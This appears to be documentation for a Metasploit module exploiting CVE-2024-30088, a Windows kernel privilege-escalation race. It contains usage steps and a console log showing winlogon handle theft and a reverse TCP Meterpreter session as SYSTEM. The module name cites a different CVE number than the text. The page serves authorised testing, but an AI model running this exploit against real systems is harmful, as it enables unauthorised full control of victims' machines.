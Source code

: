 ## Vulnerable Application
CVE-2024-30088 is a Windows Kernel Elevation of Privilege Vulnerability which affects many recent versions of Windows 10,
Windows 11 and Windows Server 2022.

The vulnerability exists inside the function called `AuthzBasepCopyoutInternalSecurityAttributes` specifically when
the kernel copies the `_AUTHZBASEP_SECURITY_ATTRIBUTES_INFORMATION` of the current token object to user mode. When the
kernel preforms the copy of the `SecurityAttributesList`, it sets up the list of the SecurityAttribute's structure
directly to the user supplied pointed. It then calls `RtlCopyUnicodeString` and
`AuthzBasepCopyoutInternalSecurityAttributeValues` to copy out the names and values of the `SecurityAttribute` leading
to multiple Time Of Check Time Of Use (TOCTOU) vulnerabilities in the function.

### Setup

Windows 10 versions 22H2 (without the patch ie. excluding 10.0.19045.4529) are vulnerable out of the box.
This exploit module has been tested on Windows 10 version 22H2 build 19045.2965.

## Verification Steps

1. Start msfconsole
1. Get a user level session on an affected Windows machine
1. Do: `use windows/local/cve_2024_30038_authz_basep`
1. Set the `LHOST`, `LPORT`, and `SESSION` options
1. Run the module
1. Receive a session running in the context of the `NT AUTHORITY\SYSTEM` user.

## Scenarios
### Windows 10 (10.0 Build 19045.2965)
```
msf6 > use windows/local/cve_2024_30038_authz_basep
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2024_30038_authz_basep) > set session -1
session => -1
msf6 exploit(windows/local/cve_2024_30038_authz_basep) > exploit

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version detected: Windows 10+ Build 19045
[*] Reflectively injecting the DLL into 9664...
[*] Attempting to steal the handle from the winlogon process...
[*] Sleeping for 2 seconds before attempting again
[+] Successfully stole winlogon handle: 1340
[+] Successfully retrieved winlogon pid: 736
[*] Creating the thread to execute in 0x16e4e500000 (pid=736)
[*] Sending stage (201798 bytes) to 172.16.199.130
[*] Meterpreter session 63 opened (172.16.199.1:4444 -> 172.16.199.130:49735) at 2024-08-21 22:56:13 -0700

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-FGNRA7E
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```
